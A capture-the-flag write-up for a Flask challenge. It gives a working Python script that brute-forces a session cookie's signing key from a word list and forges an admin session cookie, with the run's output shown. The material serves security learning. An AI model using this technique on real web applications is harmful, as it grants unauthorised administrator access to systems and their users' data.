

# Most Cookies

Category: Web Exploitation </br>
AUTHOR: MADSTACKS

## Description
```
Alright, enough of using my own encryption. Flask session cookies should be plenty secure
```

## The how to

We received the server source code. The most important part for us is the server list of secret keys:
```py
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
"shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", 
"biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", 
"wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", 
"lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
Cookies! Yum. Now again, for the sake of transparency. After some googling around I came by this [article](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce).
</br>
The source code used there is exactly what is needed to solve this challenge. And unlike the author (Luke Paris, great job) we don't have to scrape for the secret keys:
```py
import flask
import hashlib

from sys import argv
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature

cookie = argv[1]

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
"shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", 
"biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", 
"wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", 
"lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

real_secret = ''

for secret in cookie_names:
	try:
		serializer = URLSafeTimedSerializer(
   			secret_key=secret,	
   			salt='cookie-session',
   			serializer=TaggedJSONSerializer(),
   			signer=TimestampSigner,
   			signer_kwargs={
   				'key_derivation' : 'hmac',
   				'digest_method' : hashlib.sha1
   		}).loads(cookie)
	except BadSignature:
		continue

	print(f'Secret key: {secret}')
	real_secret = secret

session = {'very_auth' : 'admin'}

print(URLSafeTimedSerializer(
	secret_key=real_secret,
	salt='cookie-session',
	serializer=TaggedJSONSerializer(),
	signer=TimestampSigner,
	signer_kwargs={
		'key_derivation' : 'hmac',
		'digest_method' : hashlib.sha1
	}
).dumps(session))

```
Then I just got the cookie that was set by the server and ran like this:
```bash
python3 solve.py eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGDN9Q.OQfLsrc3CI1o1FnNcfKIritiSiU
Secret key: chocolate chip
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGDOnQ.7XmRCoG9kNKi2lcgJ11-PXB2SBo
```
Change your cookie value or send a request through python:
</br>



</br>